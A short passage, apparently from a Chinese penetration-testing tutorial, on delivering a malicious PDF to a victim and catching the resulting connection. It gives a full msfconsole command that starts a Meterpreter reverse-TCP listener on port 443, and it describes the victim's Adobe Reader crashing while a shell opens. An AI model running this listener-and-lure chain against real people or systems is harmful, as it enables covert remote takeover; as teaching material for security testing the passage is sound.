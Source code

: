 已在目录`/root/.set/`中生成 PDF 文件。现在我们需要使用任何可用的通讯媒介将其发送给受害者。同时，我们还需要启动一个侦听器，它将接受来自目标的反向 MeterMeter 连接。我们可以使用以下命令启动侦听器：

```
msfconsole -x "use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 192.168.44.134; set LPORT 443; run; exit -y"
```

在另一端，我们的受害者收到了 PDF 文件，并试图用 Adobe Reader 打开它。AdobeReader 崩溃了，但是没有迹象表明这是一个妥协的受害者：

![](img/b642bc1f-1c93-4e9c-afdb-3d4690c4a463.jpg)

回到监听器端（在攻击者的系统上），我们得到了一个新的 MeterMeter 外壳！我们可以在下面的屏幕截图中看到这一点：

![](img/5d733890-4f7b-4a57-b255-0a23733c83f4.jpg)

